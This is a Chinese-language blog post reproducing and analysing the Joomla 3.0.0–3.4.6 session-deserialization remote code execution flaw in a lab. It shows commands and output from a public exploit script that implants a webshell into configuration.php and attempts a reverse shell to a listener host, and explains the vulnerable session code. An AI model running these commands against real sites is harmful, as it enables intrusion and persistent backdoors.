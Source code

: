 ```yaml
---
title: Joomla3.4.6-RCE漏洞复现分析
date: 2019-10-10 09:59:37
toc: true
tags:
- Joomla3.0.0-3.4.5 RCE
categories:
- 漏洞复现
---
```


## Joomla 3.0.0-3.4.6 RCE 漏洞复现分析

### 前言

昨天就看到了许多安全媒体发布了Joomla RCE 漏洞的预警，一直到今天早上才有时间进行简单的复现和分析。

### 漏洞分析

主要是由于Joomla对于Session处理不当，可伪造Session，进行反序列化攻击。

### 环境搭建

Joomla 3.4.6 [下载地址](https://downloads.joomla.org/it/cms/joomla3/3-4-6)

Joomla-3.4.6-RCE.py [下载地址](https://github.com/momika233/Joomla-3.4.6-RCE/blob/master/Joomla-3.4.6-RCE.py)

### 漏洞验证

[![asciicast](https://asciinema.org/a/4lYL7w2oobX7diyORy09J0uqk.svg)](https://asciinema.org/a/4lYL7w2oobX7diyORy09J0uqk)

```shell
##验证漏洞是否存在，如果存在则输出Vulnerable
[shym]% python3 joomla-3.4.6-RCE.py -t http://192.168.2.164/
[*] Getting Session Cookie ..
[*] Getting CSRF Token ..
[*] Sending request ..
[+] Vulnerable
[*] Use --exploit to exploit it
[ShymdeMBP:joomla3.0.0-3.4.6]

##利用exp进行攻击：--explpit  监听主机地址：--lhost  监听主机端口：--lport 
[shym]% python3 joomla-3.4.6-RCE.py -t http://192.168.2.164/ --exploit --lhost 192.168.2.173 --lport 9001
[*] Getting Session Cookie ..
[*] Getting CSRF Token ..
[*] Sending request ..
[+] Vulnerable
[*] Getting Session Cookie ..
[*] Getting CSRF Token ..
[*] Sending request ..
[+] Backdoor implanted, eval your code at http://192.168.2.164//configuration.php ##成功挂马的地址
in a POST with 
jnyitzoezgaovqplmmjhjmjrvydzmiocrpxzpumwsihhhvozha ##随机生成的密码
[*] Now it's time to reverse, trying with a system + perl
```

成功利用后，会在/configuration.php插入一句话木马，如下图

![image](https://user-images.githubusercontent.com/38073810/66534820-0f669880-eb4a-11e9-8648-538849f5f646.png)

蚁剑成功连接

![image](https://user-images.githubusercontent.com/38073810/66534624-61f38500-eb49-11e9-95e7-ca6275582ae7.png)

### 简单分析

#### Session处理问题

Joomla改变了原本php对session的处理规则，导致在登录过程中，先执行write函数，再执行read函数。

```php
# libraries/joomla/session/storage/database.php
  /**
	 * Write session data to the SessionHandler backend.
	 *
	 * @param   string  $id    The session identifier.
	 * @param   string  $data  The session data.
	 *
	 * @return  boolean  True on success, false otherwise.
	 *
	 * @since   11.1
	 */
	public function write($id, $data)
	{
		// Get the database connection object and verify its connected.
		$db = JFactory::getDbo();

		$data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);

		try
		{
			$query = $db->getQuery(true)
				->update($db->quoteName('#__session'))
				->set($db->quoteName('data') . ' = ' . $db->quote($data))
				->set($db->quoteName('time') . ' = ' . $db->quote((int) time()))
				->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

			// Try to update the session data in the database table.
			$db->setQuery($query);

			if (!$db->execute())
			{
				return false;
			}
			/* Since $db->execute did not throw an exception, so the query was successful.
			Either the data changed, or the data was identical.
			In either case we are done.
			*/
			return true;
		}
		catch (Exception $e)
		{
			return false;
		}
	}
```

```php
	/**
	 * Read the data for a particular session identifier from the SessionHandler backend.
	 *
	 * @param   string  $id  The session identifier.
	 *
	 * @return  string  The session data.
	 *
	 * @since   11.1
	 */
	public function read($id)
	{
		// Get the database connection object and verify its connected.
		$db = JFactory::getDbo();

		try
		{
			// Get the session data from the database table.
			$query = $db->getQuery(true)
				->select($db->quoteName('data'))
			->from($db->quoteName('#__session'))
			->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

			$db->setQuery($query);

			$result = (string) $db->loadResult();

			$result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);

			return $result;
		}
		catch (Exception $e)
		{
			return false;
		}
	}
```

 在上面write17行中，由于mysql无法处理null字节，所以在写入时将 `chr(0) . '*' . chr(0)`替换为`\0\0\0`，然而protected修饰的字段在序列化后含有`\x00\x2a\x00`，读取时，将字符替换还原，防止无法正常反序列化。如果写入数据库的时候，是`\0\0\0`， 取出来的时候将会变成`chr(0) . '*' . chr(0)`，入库时候生成的序列化数据长度为6`\0\0\0`，造成溢出，那么取出来的时候将会成为3`N*N`，反序列化时，如按照原先的长度读取，后续的字符将被吃掉。所以可以利用`\0\0\0`溢出，来逃逸密码。然后构造有效对象，发送exp，触发exp既可。......

### 漏洞修复

1、更新至最新版本